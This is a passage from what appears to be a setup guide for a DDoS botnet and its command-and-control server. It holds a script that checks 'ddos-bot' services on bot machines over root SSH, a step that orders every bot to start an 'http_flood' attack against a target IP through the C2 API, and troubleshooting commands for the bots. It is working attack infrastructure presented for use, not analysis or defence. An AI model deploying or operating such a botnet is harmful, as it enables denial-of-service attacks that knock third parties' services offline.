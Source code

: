 ```bash
echo "================================================"

for BOT_IP in "${BOT_IPS[@]}"; do
    echo -n "Bot $BOT_IP: "
    
    # Check if bot service is running
    if ssh root@$BOT_IP "systemctl is-active ddos-bot" &>/dev/null; then
        echo "✓ RUNNING"
    else
        echo "✗ NOT RUNNING"
    fi
done

echo "================================================"
echo "Summary:"
curl -s http://localhost:8080/api/status | python3 -c "
import sys, json
data = json.load(sys.stdin)
print(f'Connected bots: {data[\"active_bots\"]}/{data[\"max_bots\"]}')
"
EOF

chmod +x /opt/ddos-c2/verify_bots.sh

# Run verification
sudo /opt/ddos-c2/verify_bots.sh
```

### Step 3: Test Bot Communication

```bash
# Send test command to all bots
curl -X POST http://localhost:8080/api/attack/start \
  -H "Content-Type: application/json" \
  -d '{
    "attack_type": "http_flood",
    "target_ip": "192.168.1.200",
    "target_port": 80,
    "intensity": 1,
    "duration": 5
  }'

# Stop test attack
curl -X POST http://localhost:8080/api/attack/stop
```

## Troubleshooting

### Bot Not Connecting

```bash
# Check bot logs on specific machine
ssh root@192.168.1.101 "journalctl -u ddos-bot -f"

# Check network connectivity
ssh root@192.168.1.101 "ping -c 3 192.168.1.100"
ssh root@192.168.1.101 "telnet 192.168.1.100 8081"

# Restart bot service
ssh root@192.168.1.101 "systemctl restart ddos-bot"
```

